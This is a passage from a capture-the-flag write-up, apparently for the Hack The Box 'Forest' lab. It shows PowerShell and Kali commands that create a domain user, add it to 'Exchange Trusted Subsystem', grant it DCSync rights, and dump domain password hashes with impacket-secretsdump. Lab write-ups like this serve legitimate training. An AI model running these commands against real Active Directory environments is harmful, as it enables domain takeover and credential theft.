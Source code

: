 However, this returns the following error:

![user4](./forest/user4.png)

Even though the `svc-alfresco` is in the `Exchange Trusted Subsystem` group, the command is failing? Try making a new user and using that account:

```powershell
net user bubba gump123! /add /domain
net group "Exchange Trusted Subsystem" bubba /add /domain
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bubba -Rights DCSync -Verbose
```

But this has the same error?? Try manually creating the credential object in PowerShell:

```powershell
$pass = ConvertTo-SecureString 'gump123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\bubba',$pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bubba -Rights DCSync -Verbose
```

And this finally works:

- **NOTE:** It still could not work for the `svc-alfresco` account though...

![user5](./forest/user5.png)

With this, it is possible to dump the hashes on the system from Kali:

```bash
impacket-secretsdump htb.local/bubba:'gump123!'@10.10.10.161
```
